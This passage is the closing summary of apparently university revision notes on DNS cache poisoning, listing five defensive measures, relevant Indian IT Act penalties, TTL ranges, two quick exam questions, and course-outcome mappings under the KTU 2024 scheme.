- **Five Pillars of Defense:** (1) **DNSSEC** (cryptographic signing), (2) **Source Port Randomization**, (3) **0x20 Encoding**, (4) **BCP38 / RRL**, (5) **Egress Filtering & SIEM Monitoring**.
- **Engineering Utility:** DNS security is mission-critical for **e-commerce, banking, healthcare, and government** — single poisoning can divert thousands of transactions in minutes.
- **Legal Context (India):** Unauthorized DNS attacks violate **IT Act 2000, Sections 43 & 66**, punishable with imprisonment up to **3 years** or fine up to **₹5 lakh**.
- **Default TTLs to Remember:** A-record cache typically **300–86400 seconds**; Kaminsky exploits sub-second TTL refresh of randomized subdomains.
- **Two-Question Quick Test:** *"Why is UDP DNS vulnerable?"* — no authentication, IP spoofable, race condition. *"How does DNSSEC fix it?"* — asymmetric cryptographic signing using **RSA/ECDSA** keys, validated through a **chain of trust** from the root.
- **CO Mapping Reminder:** Definitions map to **CO1 (Remember/Understand)**, attack mechanisms to **CO2 (Understand/Apply)**, and detection/defense to **CO3 (Apply/Analyze)** as per KTU 2024 scheme.

---

<!-- SECTION_5_END -->
